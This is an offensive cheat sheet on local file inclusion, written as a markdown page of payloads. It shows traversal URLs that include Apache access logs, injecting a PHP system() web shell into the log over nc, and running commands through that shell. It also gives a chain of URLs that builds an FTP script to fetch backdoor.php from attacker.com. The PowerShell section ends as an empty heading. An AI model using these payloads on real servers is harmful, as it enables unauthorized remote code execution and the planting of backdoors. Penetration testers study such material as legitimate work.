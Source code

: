 # LFI/RFI shell tricks
The idea is to inject code into log file then calling the logfile and execute commands

## LFI parameter
	http://example.com/page?id=LFI
## LFI log file inclusion
	try to access the log file, if ok then proceed to inject a shell on the log file
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00
	http://example.com/page?id=../../../../../../../var/log/apache2/access.log%00
	nc example.com 80
	<?php echo system($_GET['cmd']); ?>
## LFI command execution
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00&cmd=whoami
## LFI file upload
###### Using Windows built in debug.exe (Executables files smaller than 64K)
Idea
	echo hex value to a file and use debug.exe to assemble it

###### FTP Upload
	after setting up your FTP server
	http://example.com/page?id=echo+open+attacker.com+21>+ftp.txt
	http://example.com/page?id=echo+ftpuser>>+ftp.txt
	http://example.com/page?id=echo+ftpass>>+ftp.txt
	http://example.com/page?id=echo+bin+>>+ftp.txt
	http://example.com/page?id=echo+GET+backdoor.php+>>+ftp.txt
	http://example.com/page?id=echo+bye+>>+ftp.txt
	http://example.com/page?id=ftp+-s:ftp.txt
	http://example.com/page?id=backdoor.php?cmd=whoami

###### PowerShell Upload
